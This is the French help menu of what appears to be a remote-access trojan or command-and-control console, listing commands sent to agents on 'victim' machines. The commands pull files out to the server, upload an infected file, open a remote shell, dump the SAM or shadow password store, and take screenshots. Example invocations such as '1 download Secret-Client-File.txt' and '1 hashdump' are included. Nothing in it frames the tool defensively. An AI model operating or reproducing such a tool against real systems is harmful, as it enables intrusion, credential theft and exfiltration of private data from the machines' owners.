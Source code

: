 1 - Linux
[i] help         : Affiche ce message d'aide
[i] list         : Liste tous les agents connectés

[i] <agent_id> <commande> : Envoie une commande à l'agent spécifié (ex: '1 upload /path/to/file')


[i] Commandes à envoyer aux agents (précisez l'agent_id avant la commande):

[i]   download <path>     : Télécharge des fichiers de la victime vers le serveur
1 download Secret-Client-File.txt

[i]   upload <path>       : Upload des fichiers du serveur vers la victime
1 upload Infected-File.txt

[i]   shell               : Ouvre un shell interactif (bash ou cmd)
[i]   ipconfig            : Obtient la configuration réseau de la machine victime
[i]   search <file>       : Recherche un fichier sur la machine victime
1 search Infected-File.txt


[i]   hashdump            : Récupère la base SAM ou le fichier shadow de la machine victime
1 hashdump

[i]   screenshot          : Prend une capture d'écran de la machine victime
screenshot


